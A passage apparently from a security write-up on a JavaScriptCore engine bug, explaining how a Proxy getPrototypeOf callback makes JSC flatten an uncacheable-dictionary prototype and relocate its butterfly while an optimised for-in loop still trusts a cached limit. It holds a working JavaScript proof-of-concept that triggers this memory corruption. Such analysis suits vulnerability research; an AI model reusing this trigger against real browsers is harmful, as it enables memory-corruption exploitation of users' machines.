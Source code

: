 ```cpp
    ...
}
```

However, this operation is only applied to `UncacheableDictionary`, so we cannot go to our callback and flatten the base object simultaneously. Luckily, we can do this on behalf of another object. Then we can iterate through the boundary of base object's butterfly. But we have to force JSC to optimise the for-loop. Otherwise, it will go to a slow path and retrieve the object's property by searching in its structure, not by comparing with cached limit as a fast path does.

```javascript
function foo(o) {
    for (let p in o) {
        return o[p];
    }
}

for (let i = 0; i < 500; ++i) {
    foo({});
}

var obj2 = {};
var obj1 = {};
// Make obj2 become a dictionary
for (let i=0; i < 200; ++i)
    obj2["a" + i] = i;
// Back-up original prototype to prevent cyclic prototype chain
var savedObj2 = obj2.__proto__;

var proxy = new Proxy({}, {
    getPrototypeOf: function(target) {
        // Make obj2 become un-cacheable-dictionary
        for (let i = 20; i < 170; ++i)
            delete obj2["a" + i];

        // Restore obj2's proto
        obj2.__proto__ = savedObj2;

        // Enumerate obj1 so that JSC will flatten its prototype chain, which includes obj2
        for (let p in obj1) {}

        // Now obj2's butterfly has been relocated to another address
        return null;
    }
});
obj2.__proto__ = proxy;

// This will make JSC flatten obj2 later
obj1.__proto__ = obj2;

foo(obj2);
```
